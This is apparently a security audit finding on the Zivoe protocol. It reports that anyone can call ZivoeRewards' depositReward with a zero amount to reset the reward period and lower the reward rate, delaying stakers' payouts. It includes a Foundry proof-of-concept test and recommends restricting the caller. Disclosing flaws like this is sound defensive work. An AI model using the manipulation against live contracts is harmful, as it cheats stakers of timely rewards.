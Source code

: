Icy Topaz Woodpecker

high

# Malicious user can postpone ZVE stakers reward

## Summary
Reward payed to stakers compute based on elapsed time from stake and reward rate and reward rate compute in depositReward function in ZivoeReward.sol contract and when for first time [ZivoeYDL contract](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeYDL.sol#L260) deposits reward into ZivoeReward contract rewardRate compute based on reward amount divide by reward duration but there is a problem here ,everyone can call depositReward function and when depositReward will be call for second time that create new reward period with new rewardRate and new rewardRate is less than old rewardRate

## Vulnerability Detail
This example shows Sam's reward is 133333333333333170000 DAI but malicious user calls depositReward with zero input at 2th day of reward period and that causes reward payment will be decreased to 128888888888888635000 DAI
Please add this function to end of ZIVOE-CORE-TESTING/src/TESTS_Core/Test_ZivoeRewards.sol 
```solidity
    function test_decreaseRewardPaymentForEveryStaker() public {
        uint256 deposit = 1000 ether; // Minimum 100 DAI deposit.
        god.try_addReward(address(stZVE), address(DAI), 30 days);

        assert(sam.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam))));
        sam.try_stake(address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam)));
        depositReward_DAI(address(stZVE), deposit);



        assert(bob.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(bob))));

        (,,uint256 preRewardRate,,uint256 preRewardPerTokenStored) = stZVE.rewardData(address(DAI));

        hevm.warp(block.timestamp + 2 days);

        depositReward_DAI(address(stZVE), 0);

        hevm.warp(block.timestamp + 2 days);
        vm.prank(address(sam));
        stZVE.getRewards();
        emit log_named_uint("bob balance after get reward:", IERC20(DAI).balanceOf(address(sam)));

    }
```
## Impact
Malicious user can postpone ZVE stakers reward

## Code Snippet
https://github.com/Zivoe/zivoe-core-foundry/blob/ad27cffdf96eaaa33274bfba0dda9b60e36d29a2/src/ZivoeRewards.sol#L228
https://github.com/Zivoe/zivoe-core-foundry/blob/ad27cffdf96eaaa33274bfba0dda9b60e36d29a2/src/ZivoeRewards.sol#L237
https://github.com/Zivoe/zivoe-core-foundry/blob/ad27cffdf96eaaa33274bfba0dda9b60e36d29a2/src/ZivoeRewards.sol#L126

## Tool used

Manual Review

## Recommendation
DepositReward should only be callable by ZivoeYDL.sol contract
